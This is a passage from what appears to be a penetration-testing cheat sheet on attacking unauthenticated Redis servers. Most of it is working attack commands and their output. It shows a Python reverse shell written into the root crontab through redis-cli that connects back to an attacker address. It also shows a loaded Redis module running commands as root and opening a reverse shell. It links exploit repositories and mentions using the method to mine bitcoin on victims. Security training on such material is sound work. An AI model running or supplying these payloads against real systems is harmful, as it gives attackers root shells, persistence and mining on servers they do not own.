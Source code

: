 Finally, you can ssh to the redis server with private key : 

```bash
ssh -i id_rsa test@10.10.x.x
```

This technique is automated here: 

[GitHub - iw00tr00t/Redis-Server-Exploit: This will give you shell access on the target system if redis server is not configured properly and faced on the internet without any authentication](https://github.com/iw00tr00t/Redis-Server-Exploit)

<h3>Crontab</h3>

> `10.10.z.z` = Attacker, `10.10.x.x` = victim redis 
{: .prompt-warning }

```bash
root@Urahara:~ echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.z.z\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.10.x.x -x set 1
OK
root@Urahara:~ redis-cli -h 10.10.x.x config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~ redis-cli -h 10.10.x.x config set dbfilename root
OK
root@Urahara:~ redis-cli -h 10.10.x.x save
OK
```

The last example for Ubuntu, for Centos, the above command should be:

```bash
redis-cli -h 10.10.x.x config set dir /var/spool/cron/
```

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

<h3>Load Redis Module</h3>

Following the instructions from link below you can compile a redis module to execute arbitrary commands.

[GitHub - n0b0dyCN/RedisModules-ExecuteCommand: Tools, utilities and scripts to help you write redis modules!](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

Then you need some way to upload the compiled module
Load the uploaded module at runtime with `MODULE LOAD /path/to/mymodule.so`
List loaded modules to check it was correctly loaded: `MODULE LIST`
Execute commands:

```bash
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
Unload the module whenever you want: MODULE UNLOAD mymodule
```
